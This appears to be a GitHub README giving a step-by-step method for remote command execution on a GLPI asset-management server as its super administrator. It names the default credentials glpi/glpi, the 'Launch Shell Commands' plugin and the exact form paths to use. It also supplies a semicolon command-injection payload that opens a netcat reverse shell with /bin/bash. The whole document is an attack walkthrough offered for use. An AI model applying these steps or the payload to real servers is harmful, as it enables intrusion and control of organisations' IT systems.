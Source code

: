 # GLPI-RCE-Authenticated
How to RCE as a glpi administrator

``
Gestionnaire Libre de Parc Informatique (GLPI) is a Free Asset and IT Management Software package, that provides ITIL Service Desk features, licenses tracking and software auditing.
``

https://github.com/glpi-project/glpi

## Exploitation 

The technique consists in using a plugin which allows to execute commands on the system like ping or tracert and to divert it towards the reverse shell for example.

You need to be super administrator of glpi to add the plugin and perform the rce.<br>The default login is **glpi / glpi**

Initially you must add a key "GLPI network" in the general parameters of glpi what gives the rights to add extensions, you have just to create an account for free on the site of glpi and to copy paste the key.

![](https://i.imgur.com/CuNnAFw.png)

![](https://i.imgur.com/o4HQRnH.png)

in the Marketplace : ``/glpi/front/marketplace.php``<br>
Add the plugin named "Launch Shell Commands"

![](https://i.imgur.com/HO9rTMo.png)

Edit the ping command page : ``/glpi/marketplace/shellcommands/front/shellcommand.form.php?id=1``

Enter a random string in the tag and in the parameters you can run anything as a command using a semicolon<br>
You can use this payload for reverse shell :
```sh 
;nc -c /bin/bash localhost 1234
```

![](https://i.imgur.com/0vuQnGF.png)

Add a ping command group : ``/glpi/marketplace/shellcommands/front/commandgroup.php``

![](https://i.imgur.com/CKQkOS2.png)

To finish to execute the payload: ``/glpi/marketplace/shellcommands/front/advanced_execution.php``<br>
Select the ping command group, a category and a device from the list (if you don't have one you can create one in Assets)

![](https://i.imgur.com/3ZnE7eJ.png)
![](https://i.imgur.com/zlns3aD.png)

